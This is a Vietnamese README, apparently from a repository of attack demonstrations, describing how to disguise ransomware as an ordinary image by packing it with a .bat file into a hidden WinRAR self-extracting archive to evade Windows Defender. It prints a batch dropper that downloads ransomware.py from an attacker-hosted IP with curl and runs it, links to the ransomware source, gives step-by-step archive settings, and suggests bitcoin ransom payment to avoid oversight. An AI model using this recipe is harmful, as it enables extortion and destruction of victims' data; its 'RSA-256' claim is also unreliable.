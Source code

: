 # Giả mạo file bất kỳ để chạy ransomware
Lạm dụng tính năng hợp pháp của phần mềm WinRAR để nén trực tiếp ransomware và một file ảnh bất kỳ vào cùng 1 file, để tạo ra một file hoàn toàn hợp pháp, nhằm bypass hoàn toàn Windows Defender (trước khi nén, ransomware cũng đã được mã hóa). 

File được nén có tên và icon giống hệt 1 file ảnh bình thường.          
***(Ví dụ: Mô-hình-mạng-doanh-nghiệp.jpg, file ảnh này được đặt trong tệp file nén: Hồ-sơ-năng-lực-doanh-nghiệp.rar)***

Khi chạy file hợp pháp đã được nén đó, ransomware sẽ tự động thực thi và mã hóa toàn bộ dữ liệu file trên máy của nạn nhân (mã hóa ở đâu, 1 phần hay toàn bộ dữ liệu hoàn toàn do hacker quyết định,....). Thuật toán mã hóa được sử dụng là RSA-256 - key giải mã nằm duy nhất trên máy hacker.

Kết quả tấn công: Ransomware mã hóa toàn bộ file của nạn nhân và để lại thông tin liên lạc cho việc thanh toán tiền chuộc (có thể thành toán bằng bitcoin - tránh được sự giám sát từ bất kỳ một bên thứ 3 nào khác)

## Thực thi
1. [Ransomware được viết bằng python](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/Fake%20files%20to%20run%20ransomware/Windows.py)
2. ".bat" file có nhiệm vụ tải ransomware đang được host trên máy attacker về  và thực thi. Lưu ý: trong phạm vi thử nghiệm cần sửa lại file .bat này để ransomware được thực thi đúng vị trí thư mục thử nghiệm.
```bat
:: Tên file ".bat" đặt thành backup_data.bat
@echo

cd C:\\User\anoni\Desktop\backup 
:: cần sửa lại đúng đường dẫn của thư mục thử nghiệm. Thư mục thử nghiệm ở đây là **backup**

curl http://192.168.2.39:1113/ransomware.py > backup_data.py

backup_data.py
```

Con ransomware này sẽ mã hóa những file nằm trong cùng thư mục với nó. Vì thế nên trong phạm vi thử nghiệm, cần đặt nó đúng vào thư mục thử nghiệm!!! 

Key mã hóa (public key) đã được chèn thẳng vào code

Mã hóa file .bat trên tương tự như [demo này](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/Attach%20malicious%20code%20to%20a%20legitimate%20WORD%20file.md)

Trong demo này, file ảnh sẽ được giả mạo để thực thi ransomware 

1. Chọn file ảnh (.png) và file .bat đã mã hóa
2. Add to archive... -> Compression method: Best -> Create SFX archive
3. Advanced -> SFX options
4. "Path to extract: Điền thư mục thử nghiệm vào đây", Setup - Run after extraction: backup_data.bat, Text and icon: tự đặt, Modes: Hide all

Ref: https://anonyviet.com/cach-tao-ransomware-bang-python/

https://medium.com/@psychomong/how-to-embed-exe-with-image-c6743cc9ab6b


